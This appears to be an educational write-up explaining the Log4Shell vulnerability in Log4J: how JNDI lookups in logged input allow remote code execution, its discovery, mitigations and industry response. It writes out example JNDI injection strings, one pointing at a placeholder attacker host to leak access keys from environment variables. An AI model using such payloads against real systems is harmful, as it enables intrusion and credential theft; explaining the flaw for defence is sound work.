 # How did the Log4J vulnerability become the threat that it was?


## What is Log4J?
Log4J is a widely used open source java logging library originally written by Ceki Gülcü. It is used in most moderately sized Java projects. It can be used to track thing like error messages or debug messages, which are then stored or *logged*. Apache describes Log4J as follows:
> log4j is a tool to help the programmer output log statements to a variety of output targets.In case of problems with an application, it is helpful to enable logging so that the problem can be located. With log4j it is possible to enable logging at runtime without modifying the application binary. The log4j package is designed so that log statements can remain in shipped code without incurring a high performance cost. It follows that the speed of logging (or rather not logging) is capital.

> log4j is designed with three goals in mind: reliability, speed and flexibility. There is a tight balance between these requirements. We believe that log4j strikes the right balance.




## Why is Log4Shell a big deal?
Log4Shell (CVE-2021-44228) is a nickname for an severe vulnerability in Log4J. The vulnerability has existed since 2013, and was only "discovered" and privately disclosed to the [Apache Software Foundation](https://en.wikipedia.org/wiki/The_Apache_Software_Foundation) on 24 November 2021. According to the Common Vulnerability Scoring System ([CVSS](https://nvd.nist.gov/vuln-metrics/cvss)) this vulnerability scores a 10/10 for it's severity. This is because this vulnerability enables Remote Code Execution (RCE). Which allows hackers to be able to run any code on your machine. This is also why it is called Log4Shell, because it's almost like anyone can open a [Shell](https://datacarpentry.org/shell-genomics/01-introduction/) on any server that uses Log4J.

According to Snyk, an open source security platform, 60.8% of java projects that use Log4J use it indirectly. Which means that the project has libraries that in turn use Log4J. So even developers that can't directly see that they are using Log4J aren't safe from the vulnerability.
![image](https://user-images.githubusercontent.com/77112006/147350753-63dac8cd-8d3b-4244-ade5-ea239dde1b3c.png)
source: https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/

## How does Log4Shell work?
There are several factors, which together are responsible for the vulnerability. So first we'll have a look at some features wihtin Log4J, and then we'll illustrate how the vulnerability works.

### Logging expressions
Log4J allows developers to log expressions. See the code below
```java
logger.info("{} has logged in using id {}", map.get("Name"), user.getId());
```
In this example you're logging a string. And you're plugging the value that gets returned from ```map.get("Name")``` and ```user.getId()``` into that string. On itself, this isn't a problem.

### JNDI
Java Naming and Directory Interface (JNDI) is a java feature that allows distributed applications to look up services in an abstract, resource-independent way. Allowing a developer to store java objects somewhere, and then serialize them to their JVM. This is the way that distributed java application used to work, but this way of distributing has fallen out of fashion some time ago. Nevertheless, this features still remains in java today.

### JNDI lookup while logging expressions
In 2013, a cotributer made a change to Log4J that allowed the developer to do the above described JNDI lookups in a log message. making the code below possible
```java
logger.info("{} has logged in using id {}", "${jndi:ldap://logconfig/example/name}", user.getId());
```
The code above is the vulnerability. Let's say a vulnerable application logs a users input. A user could then input a string like ```${jndi:ldap://myserver/malicious_code}```. Log4J will see this and try to look up this JNDI. Which would then introduce a malicious java object into the JVM.  

## How did Log4Shell get discovered?
According to [this source](https://www.npr.org/2021/12/14/1064123144/companies-scramble-to-defend-against-newly-discovered-log4j-digital-flaw?t=1640603508585) A researcher working for Chinese tech firm Alibaba discovered the bug and privately informed the Apache Software Foundation. It accidentally went public after the popular word building video game Minecraft made its disclosure and the researcher posted about it online. 


## What are the potential fixes for severe vulnerabilities like Log4Shell?
First of all, the are some simple mitigations which can stop some of the damage being done to your application. The first one is to disable lookups by setting the following flags to false.
```
com.sun.jndi.ldap.object.trustURLCodebase
com.sun.jdni.rmi.object.trustURLCodebase
```
This however won't stop your application from actually making the call. It only stops the contents of that call from doing anything. This still enables hackers to make your application leak it's environment variables, like in the code below:
```java
${jndi:ldap://attackerip/exploit/${env:ACCES_KEY_ID}/${env:SECRET_ACCES_KEY}}
```
A more definitive way of fixing the vulnerability is to  update log4j to version 2.16 or above. This can be rather difficult, since an application can have dependencies on things, which then have dependencies on Log4j. You would either have to wait for that dependency to publish an update, or if you're using gradle, you could use a function called dependency constraints.
Another way that some companies used to fix it is to directly patch it. Which may be the eassiest option in some cases.





![image](https://user-images.githubusercontent.com/77112006/147350117-701b817a-cda4-412c-b85e-89865f4fa72d.png)

## How did affected developers deal with it?
After the news of this exploit was made public, virtually every tech companies number one priotity was to find a way to fix it within their software, before any hacker could exploit it. The Washington post stated 
> At Google alone, more than 500 engineers had been going through reams and reams of code to make sure it was safe, according to one employee.




Sources:
- [Log4J Vulnerability (Log4Shell) Explained - for Java developers. (2021, 16 december). [Video]. YouTube.](https://www.youtube.com/watch?v=uyq8yxWO1ls&t=1037s&ab_channel=JavaBrains)
- [Tal, L. (2021, 20 december). The Log4j vulnerability and its impact on software supply chain security. Snyk. Geraadpleegd op 24 december 2021](https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/)
- [Apache log4j 1.2 - Frequently Asked Technical Questions. (z.d.). Apache. Geraadpleegd op 24 december 2021]( https://logging.apache.org/log4j/1.2/faq.html)
-  [Yan, Tao; Deng, Qi; Zhang, Haozhe; Fu, Yu; Grunzweig, Josh (10 December 2021). "Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)".](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
-  [NVD - Vulnerability Metrics. (z.d.). NVD. Geraadpleegd op 24 december 2021](https://nvd.nist.gov/vuln-metrics/cvss)
-  [What is JNDI? What is its basic use? When is it used? (2010, 6 december). Stack Overflow. Geraadpleegd op 27 december 2021](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)
-  [Hunter, T., & De Vynck, G. (2021, 20 december). The ‘most serious’ security breach ever is unfolding right now. Here’s what you need to know. Washington Post. Geraadpleegd op 27 december 2021](https://www.washingtonpost.com/technology/2021/12/20/log4j-hack-vulnerability-java/#LSWMB3XKYRALRAPBVQHPTFUQSI)
